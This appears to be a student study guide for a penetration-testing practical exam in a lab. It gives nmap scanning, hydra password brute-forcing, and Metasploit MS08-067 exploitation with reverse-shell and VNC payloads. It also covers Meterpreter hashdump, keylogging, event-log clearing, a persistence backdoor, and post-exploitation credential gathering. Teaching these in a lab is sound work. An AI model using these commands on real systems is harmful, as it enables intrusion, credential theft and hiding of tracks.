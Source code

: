 # Practical Exam 1 Practice

>Author: Dongyi Guo
>
>Doc Version: 1.2.1

* During the formal test, you are only using Kali Linux, steps for setting up other machines are here for your own practice.
* Everything that is inside ```<...>``` requires you to find proper answer to fill in.

## Question 1

#### Linux Network Setup (Kali, Metasploitable2):

To assign IP  on Linux:

```bash
ip a a <IP>/<Prefix> dev <NetworkInterface>
```

To check current IP configuration, use:

```bash
ip a
```

or

```bash
ifconfig
```

and check the ```inet``` parameter of your network interface for IPv4 address. You only need to config IP Kali during you test, for Metasploitable2 , run the setup command with ```sudo``` with msfadmin.

#### Windows Network Setup:

* You don't need to do this during your formal test.

To setup network on Windows 7 and higher:

* Go to Network and Sharing Center, click on the connection.
* Then select Properties.
* Then highlight the "Internet Protocol Version 4 (TCP/IPv4)", select Properties.
* Assign IP accordingly.

For Windows XP:

* Go to Control Panel.
* Select Network Connection.
* Double-click the network.
* Select Properties.
* Then highlight "Internet Protocol [TCP/IP]", select Properties.
* Assign IP accordingly.

## Question 2

To find live hosts on current network, use ```nmap```:

```bash
nmap -sn <NetworkAddress/Prefix>
```

For port scanning:

```bash
nmap <HostAddress>
```

For OS information:

```bash
nmap -O -v <HostAddress>
```

To turn off the firewall on Windows (for your own practice) :

* Search "Windows Firewall" and select the option with exactly these 2 words.
* Click "Turn Windows Firewall on or off" on side menu.
* Turn off the firewall.

## Question 3

To brute-force a password of a given username with a specific service protocol on a remote host, use ```hydra```:

* You will need a password dictionary to power the brute-force operation.

```bash
hydra -l <LoginUsername> -P <PathToPasswordDictionary> <HostIPAddress> <ServiceProtocol> -t <ParallelAttempts>
```

To check all available service protocols, use

```bash
man hydra
```

## Question 4

Windows XP can be exploited by:

* VNC injection, returns a GUI view or control
* Meterpreter, returns a command prompt to perform miscellaneous actions on target host.

For VNC injection, while in Metasploitable Framework prompt ( ```msf6>``` ): 

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/vncinject/reverse_tcp
set LHOST <KaliIPAddress>
set RHOST <XPIPAddress>
set ViewOnly false
exploit
```

For Meterpreter:

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/meterpreter/reverse_tcp
set LHOST <KaliIPAddress>
set RHOST <XPIPAddress>
exploit
```

During Meterpreter session ( ```meterpreter>``` ), commands that could be useful:

```bash
cd <DirectoryPath> # Change directory
ls # List directory
pwd # Current directory
sysinfo # System information
ipconfig # Network information
screenshot # Take a screenshot from target host
hashdump # Dump all user's hashes on the screen
search -f <filename> # Search file based on name in current directory
download <RemotePath> <LocalPath> # Remote download file from target host to local
# Remember the path for download command has to be Unix type, for Windows '\',
# Either double it '\\' or change back to '/'.

clearev # Clean event logs

getpid # Get current process ID
ps # List current Processes on target host
migrate <processID> # Migrate to process ID
# Keylogger only works when Meterpreter is paratisitizing a process with relative high privilege:
keyscan_start # Start key logging
keyscan_dump # Dump key logging
keyscan_stop # Stop key logging

# Backgroud current session
background
# Or
bg
# Or ctrl + z
```

To add backdoor on the Meterpreter session, background the session, then in MSF prompt:

```bash
use exploit/windows/local/persistence
set LHOST <KaliIPAddress>
set LPORT 445
set STARTUP SYSTEM # DO NOT lowercase SYSTEM, as it is parameter value
sessions # Get the meterpreter session's ID
set session <MeterpreterSessionID> 
exploit
```

Then, use multi/handler to listen the incoming connection:

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <KaliIPAddress>
set LPORT 445
run # alias of exploit, use any
```

After that, if XP gets rebooted, it will send back the connection and Kali will enter Meterpreter prompt automatically.

## MSF Essentials

In MSF prompts, several things:

```bash
search <Keyword> # Search exploits via keyword
show options # Give current configurable parameters for current exploit and payload
show paylaods # Show possible payloads for current exploit
show targets # Show possible targets for current exploit
```

* Use ```setg``` instead of ```set``` to preserve parameter values across different exploits with the same parameter name.
* The parameter names are case-insensitive, but if the parameter values are given accepted value (Accepted: ...), you must match the case:

```bash
set sTArTuP SYSTEM # That is okay
set STARTUP system # NOT OKAY
```

## Post-Exploitation Information Gathering

* This means gathering information after you retrieve administrative priviledge on a target.

If you have a reverse shell session and you want to upgrade it to Meterpreter session: use:

```bash
sessions # Check the session ID of your reverse shell session
sessions -u <ReverseShellSessionID>
```

If you have a unprivileged Meterpreter session, to find exploit escalating your privilege, use:

```bash
sessions # Check the session ID of your unprivileged session
use post/multi/recon/local_exploit_suggester
set session <UnprivilegedMeterpreterSessionID>
run
```

to find possible vulnerabilities can be used to escalate your priviledge.

Once you have the administrative privilege, to find all modules that are helpful for information gathering, use:

```bash
# For Linux
search post/linux/gather
# For Windows
search post/windows/gather
```

Common useful modules to gather information about your target:

```bash
use post/<linux/windows>/gather/checkvm # Identify whether a target is virtual machine, and if so what virtualisation it is
use post/linux/gather/checkcontainer # Identify whether a target is a containerized, and if so what type of container it is
use post/linux/gather/hashdump # Dump user's hashes on screen
use post/windows/gather/smart_hashdump # Dump user's hashes on screen and save them into /root/.msf4/loot/
use post/linux/gather/enum_protections # List target's security protection measurements
use post/linux/gather/enum_configs # List target's service configurations and save them into /root/.msf4/loot/
use post/linux/gather/enum_network # List target's network infrastructure information and configurations and save them into /root/.msf4/loot/
use post/linux/gather/enum_system # List target's system information and save them into /root/.msf4/loot/
```

Then set the Meterpreter session and run to gather the information:

```bash
set session <MeterpreterSessionID>
run
```


